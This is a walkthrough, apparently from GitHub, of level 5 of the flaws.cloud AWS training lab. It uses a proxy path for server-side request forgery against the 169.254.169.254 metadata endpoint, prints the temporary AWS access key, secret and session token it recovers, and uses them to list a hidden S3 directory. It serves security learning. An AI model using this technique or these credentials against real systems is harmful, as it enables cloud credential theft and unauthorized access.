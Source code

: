 ## Level 5
url: http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/
<kbd>
![image](https://github.com/user-attachments/assets/ff87639d-72f3-41d7-9a2d-ec12ebd99fc8)
</kbd>
Lab says that the level 6 link can be accessed when we used a proxy, we checked the level 6 link first and sure enough we get access denied
<kbd>
![image](https://github.com/user-attachments/assets/5f8ff2ea-d531-4221-9ca1-d53b90bd027f)
</kbd>
If you notice all three links have a directory `proxy` in it

>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/
>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml
>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/
>
If we  play around with it, the `proxy` redirects us to the a different location, to confirm, notice the results of icanhazip.com it results to my ip, 
<kbd>
![image](https://github.com/user-attachments/assets/bcb95ce7-c823-4484-9828-6e3b5149b34f)
</kbd>
Then we will use this the icanhazip again this time using the our target. 

Notice that the IP address of the target is the one that showed up, this is like a server side request forgery (SSRF) we can issue make commands via the server
<kbd>
![image](https://github.com/user-attachments/assets/f6d0d92f-06c6-4339-972d-f6e4c5f68a35)
</kbd>
With this vulnerability in mind, Aws,Gcp and azure uses the ip address 169.254.169.254 (Magic IP) as their metadata intance address and should only be accessible using the server.
<kbd>
![image](https://github.com/user-attachments/assets/c9b93321-a6a4-455e-aa97-649e59e5eb64)
</kbd>
You can read more about the instances here if you want 


https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html

Since we have access to their server, if they did not disable the ipv4 access, we can get request for the intance using this server.

After trying the said Magic IP we are able to list the instance metadata 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/`

I also transitioned to curl for easier enumeration I can just press the up arrow in my keyboard and then type there faster, and while enumerating I found this access keys
<kbd>![image](https://github.com/user-attachments/assets/23e7389a-0bce-42b8-bfab-6d05a1861e51)</kbd>

> - I woudn't recommend doing it in curl, because some character encoding is different when you access the keys from there, and I spent some time troubleshooting the issue


We can use this key to check what access we have, we will create another profile for this access, I used the comand below

```
┌──(aaron㉿kali)-[~/flaws/level6]
└─$ aws configure --profile level5
AWS Access Key ID [None]: ASIA6GG7PSQG3JI4EYHC
AWS Secret Access Key [None]: S3O6moArXchcbC1EkUzHNnU0VEXHqr9K2iZII3dh
Default region name [None]: 
Default output format [None]: 

```

However, to solve the level, we need to add another variable to our profile which is the aws_session_token variable, we add that by going in directly to the aws keys file location, you can use any editor you want
```
┌──(aaron㉿kali)-[~/flaws/level6]         
└─$ vim ~/.aws/credentials
1 [level5]
  2 aws_access_key_id = ASIA6GG7PSQGV34RQHKC
  3 aws_secret_access_key = S3O6moArXchcbC1EkUzHNnU0VEXHqr9K2iZII3dh
  4 aws_session_token = IQoJb3JpZ2luX2VjEOn//////////wEaCXVzLXdlc3QtMiJHMEUCICHzlVYTRyXmaSM1Ggxy1nFMIg9hsIXN8xq6OLKBzcNpAiEAlJQUl8D8eUgqI+LBOgFXNWcHn6B5O+ROmXu9L4puh5Qqs    gUIUhAEGgw5NzU0MjYyNjIwMjkiDI/akownn+kVn26ptiqPBbk1ua2V0EJYoQuld5LzUxkDl18PXVEpHYZLsSD0YHhtw8mYFrJU8CVmRQhkRrD2bQJjtdXUb8ajhQgXSTrGJma0Bto2Z8FFt4Ij2LSL9ipWwwHzDh2WEU    ykL8PjHiPXJfkvoM1low9s2JqWs59AD6oaU2rE5SZnggnW6isq889VcLH/AM4h6h5EXqXE+Sf3SE0J4J7VxF18rbVsapVPQT2+KOI9e27/ffdftQb8HSNCI42ULC73Eno6fQGKr6g0yxApVwpMq6Kj/9IPm4pwqwabj1L    ZDyK7dXiUGh8XZoBC/B1Ra/4icwEwV3whn+NrAXHnYEw+vv1gKEFx6ZZe/bbXI/SBi45hh9cnkRwR7j47OimqLRlWqQOk7dv+HIw/vqIrZdAiXUXYxWFweNK6ZXPAsmbgJl8/xiW8Fk3oupkJ6KD80nIpg4TKjFrxTHhV    j48FtQykv3yFRp4zpP9SnQ0/UdJyr7CGAsc8rMegQDZFozoguqkSRiMWyRHrx93WPs5/rSDzBALVUzl7/siR9QfrktuRPluv7K+UlgKdaZoP93PRXz4jQa8cuf4MHu5fPo2wiJudR7aFw4dSIyfPsDtvd4w0Edeok7Mbx    fTTWBD9owLsTmP6gV0WSH+oE4uDyaJFgULH2eh3hBJr/PHReZsrezs3g9wrZrtFk3BeP9NPQcPJEgJAQ/hz5Egisr9AqFwMOv5qpia/i4IV6r0HMk/EdIlAxzYPc/TcksYqAhLrybF03XEg5DxKtRG0D57p8FrBjdQE4i    hPQm72zutEreBIjk4kFZpZpJLr2pOAHCRRCva3wN6S8Zu+9BXYMN6XsEGvaGbTxl4Nir5eZ9RTtdKg2SvIiFKK+t98/pbcnR4w8IDMuAY6sQGQq08uh++HS8fSpF/pqkmNXvjLD2uCp23BFJ+CIhbC4PWE0apMHoI2bOR    3KfAPzJb2lyPfFS2na7pd+Rye2VbOXEJ1YQbGmbw1V0aXeFAtc2YwZm9kQzckNfY8H23aP4JkTrTCQ2FpOsZS9zTz1ayUrDnDGhseB8tlXHL6+1au2Z2K6R2eO6M9pF1fj688pNKpiCTQnsDt3/hG/ULRhrsNOtZQ7uyc    8t1B9K3q9LhJ8c0=
~
```
<kbd>![image](https://github.com/user-attachments/assets/4c847d7d-889c-4289-a198-b80cab2bc5f5)</kbd>

And if we try to list the s3, we can now see the hidden directory, we can conclude that it is directory because of the `/` at the end of the name


<kbd>![image](https://github.com/user-attachments/assets/3b66b6d9-7eaf-4827-97d6-3d1169191587)</kbd>

And if we list the directories we can see this

![image](https://github.com/user-attachments/assets/3b552212-ba9e-4aca-bc69-630b88b9ced4)

All we need to do now is to render the hidden directory in the browser and we can go ahead and proceed to the final challenge


![image](https://github.com/user-attachments/assets/bfb64361-52c5-4ef0-8dfb-30b4577b21a5)



